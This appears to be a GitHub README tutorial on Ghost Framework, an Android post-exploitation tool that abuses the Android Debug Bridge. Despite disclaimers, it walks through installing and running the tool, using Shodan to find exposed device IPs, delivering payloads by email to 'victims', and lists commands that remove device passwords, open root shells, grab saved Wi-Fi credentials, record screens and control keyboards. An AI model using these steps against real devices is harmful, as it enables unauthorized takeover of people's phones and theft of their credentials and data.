 # Ghost Framework
A brief review about the ghost framework.

# Usage,warnings and Disclaimers :

**Ghost Framework disclaimer:**
Usage of the Ghost Framework for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, federal, and international laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program.

**Shodan Disclaimer:**
Please use Shodan responsibly. Manipulating any system that you do not own is illegal.
This is meant to be a research tool, and please be sure to put on your white hat before walking out into the cyber world.
**Shodan is just used as an example, using this to hack into private networks and servers is a punishable offense and I'm strictly against the use of this**

**I am not responsible for any of the issues caused by this, anything do it at your own risk**

**It involves huge risk, and one can be considered as trying to hack into it. And its a punishable offence**

## The Tool :
Ghost Framework is an Android post-exploitation framework that exploits the
Android Debug Bridge to remotely access an Android device. Ghost Framework
gives you the power and convenience of remote Android device administration.

*This is what entynetproject tells us about the ghost framework.*

### Prerequisites :

* Kali Linux (Main Os/Running a VM)
* Basic navigation using linux terminal.
* Internet Connectivity.
* Free space on Hard disk to install the required packages.(Jk)


I've recently come across the ghost framework, 
and It can be used by anyone with a mere knowledge about cybersecurity.

### Advantages of the Ghost Framework :
* It can be used to access the device shell.
* It has a simple user interface and is user-interface.
* It can be used to remove the device password.

https://github.com/entynetproject/ghost

*This is the link to the ghost framework.*

# Ghost Installation :
```
git clone https://github.com/entynetproject/ghost.git
```
And then we use the following commands from Linux command line to install the framework,
```
cd ghost
chmod +x install.sh
./install.sh
```
Basically, it allows us to connect through Android Debug Bridge, 
and then we can access the device by using some commands.

So after the installation is done successfully,

# Ghost Framework execution :
We first navigate into the ghost directory,
```
cd ghost/
```
And now we list the files and folders,
```
ls -l
```
Then we get the following menu,


![Test Image 1](https://github.com/rohith1125/Ghost-Framework/blob/master/1.JPG)


Now we must convert it into an excutable using the following command,
```
chmod +x install.sh
```
Now since its in the excutable we can now install it using this command,
```
./install.sh
```
**This will initialize the installation of ghost framework and the dependencies.**

# Ghost Framework execution :
To run the ghost framework,
It needs superuser privileges in order to run it.
```
sudo ghost
```
![Test Image 5](https://github.com/rohith1125/Ghost-Framework/blob/master/new.JPG)



Like any other sudo command, kali will ask us to authenticate using password.
After sucessful authentication we are into the ghost framework,


![Test Image 2](https://github.com/rohith1125/Ghost-Framework/blob/master/2.JPG)




Now to list all the commands we run the following command,
```
help
```



![Test Image 3](https://github.com/rohith1125/Ghost-Framework/blob/master/3.JPG) 

  
  
  


This menu displays few core ghost commands like,
### Core Commands :
* clear
* connect
* disconnect
* exit
* help
* update


The terms are all self-explanatory, Make sure you have the latest version of the ghost framework running bu using the update command.

Now we use the delivery mechanism, and we can use many mechanisms like,
USBs, wireless, android debug bridge, and also we can use it as an email payload, so when the victim clicks on the link,
we can gain access into the target device.

# Getting the IP :
IoT crawler like Shodan, which finds vulnerable devices connected like cameras, phones, and smart home devices, 
like a smart speaker connected to the internet.

We can search for databases, servers, and many other similar things.
And now, with few keywords, we can find the Ip addresses of various vulnerable devices.

Now again back to the ghost framework,



![Test Image 4](  https://github.com/rohith1125/Ghost-Framework/blob/master/4.JPG) 
  
  
  
  
  


```
connect (IP of target)
```
This command will send the payload to the target device and
when the victim clicks the payload the following menu appears.


![Test Image 6](https://github.com/rohith1125/Ghost-Framework/blob/master/Inkednew1_LI.jpg) 

  
  
  
Now the device is in our control, there are many commands to exploit the target.
### Some key features :
```
* eatpass     (Removes the device password)
* sush        (Opens the device root Shell)
* shell       (Opens the device Shell)
* upload      (Uploads a local file)
* bootl       (Restarts Bootloader)
* reboot      (Reboots the device)
* recovery    (Launches Recovery)
* download    (Download a remote file)
* screenshot  (Takes a device screenshot at that instant)
* screenrec   (Records the device screen)
* wgrabber    (grabs wpa_supplicant)
* keyboard    (Controls the device keyboard)
* keycode     (Use device keycode)
* keycodes    (List device keycodes)
* battery     (battery information)
* debug       (Debug the device)
* inet        (shows the inet status)
* install     (install an .apk)
* launch      (Launch an application)
* wifi        (Toggle Wi-Fi)
* netstat     (Network Status)
* sysinfo     (Displays system information)
* uninstall   (Uninstall a application)
```

**So, basically we can do anything, the device is completely under our control**
# Ghost uninstallation :
```
cd ghost
chmod +x uninstall.sh
./uninstall.sh
```
This will remove all the ghost framework packages.






